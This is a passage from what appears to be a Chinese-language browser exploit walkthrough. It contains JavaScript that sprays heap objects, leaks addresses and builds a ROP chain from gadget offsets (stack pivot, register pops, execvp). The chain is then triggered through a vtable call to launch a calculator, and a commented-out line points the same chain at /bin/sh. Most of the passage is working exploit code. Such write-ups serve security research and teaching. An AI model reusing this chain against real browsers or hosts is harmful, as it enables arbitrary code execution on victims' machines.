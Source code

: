            // put the queue pointer back which will be put with rop chain
           await sprayTIPtrArr[i].push(leakHeapAddr);
           await sprayTIPtrArr[i].push(BigInt(0x13));
           await sprayTIPtrArr[i].push(BigInt(0));
           await sprayTIPtrArr[i].push(BigInt(0));
           await sprayTIPtrArr[i].push(BigInt(i));
       }
    
       // get the idx
       evilTIIdx = (await tInstancePtr.getInt()).value;
       evilTIPtr = sprayTIPtrArr[evilTIIdx];
       console.log("[+] the evil idx: "+hex(evilTIIdx));
    
       // prepare the rop chain
       let execvp = textBaseAddr + 0x0000000a1b88d0n // :
       let xchgRaxRsp = textBaseAddr + 0x0000000007fde8e4n; //: xchg rax, rsp ; ret
       let popRdi = textBaseAddr + 0x0000000002e9ee1dn; //: pop rdi ; ret
       let popRdiRsi = textBaseAddr + 0x0000000003c320fdn // : pop rdi ; pop rsi ; ret
       let popRsi = textBaseAddr + 0x0000000002f49c6en; //: pop rsi ; ret
       let popRdx = textBaseAddr + 0x0000000002ea5d72n; // : pop rdx ; ret
    
       let binshAddr = leakHeapAddr + 0x50n;
    
       let ropBufferSize = 0x80;
       let ropBuffer = new ArrayBuffer(ropBufferSize);
       let ropData64 = new BigUint64Array(ropBuffer);
       let ropDataView = new DataView(ropBuffer);
    
       // size vatable offset in vtable is 0x10;
       ropDataView.setBigInt64(0x10,xchgRaxRsp,true);
    
       ropDataView.setBigInt64(0x0, popRdiRsi, true);
       ropDataView.setBigInt64(0x8, binshAddr, true);
    
       ropDataView.setBigInt64(0x18, popRsi, true);
       ropDataView.setBigInt64(0x20, 0n, true);
       ropDataView.setBigInt64(0x28, popRdx, true);
       ropDataView.setBigInt64(0x30, 0n, true);
       ropDataView.setBigInt64(0x38, popRdx, true);
       ropDataView.setBigInt64(0x40, 0n, true);
       ropDataView.setBigInt64(0x48, execvp, true);
       // ropDataView.setBigInt64(0x50, 0x68732f6e69622fn,true);  // /bin/sh
       ropDataView.setBigInt64(0x50, 0x6f6e672f6e69622fn,true);  // /bin/gno
       ropDataView.setBigInt64(0x58, 0x75636c61632d656dn,true);  // me-calcu
       ropDataView.setBigInt64(0x60, 0x726f74616cn,true);  // lator\x00
    
       // deploy the rop chain
       for(let i=0; i&lt;0x80/8; i++) {
           await tInstancePtr.push(ropData64[i]);
       }
    }
    ```
5. 触发虚表函数，执行`rop`链，成功弹出计算器：
    
    ```js
       // trigger rop by call vtable function.
       await tInstancePtr.getTotalSize();
    ```
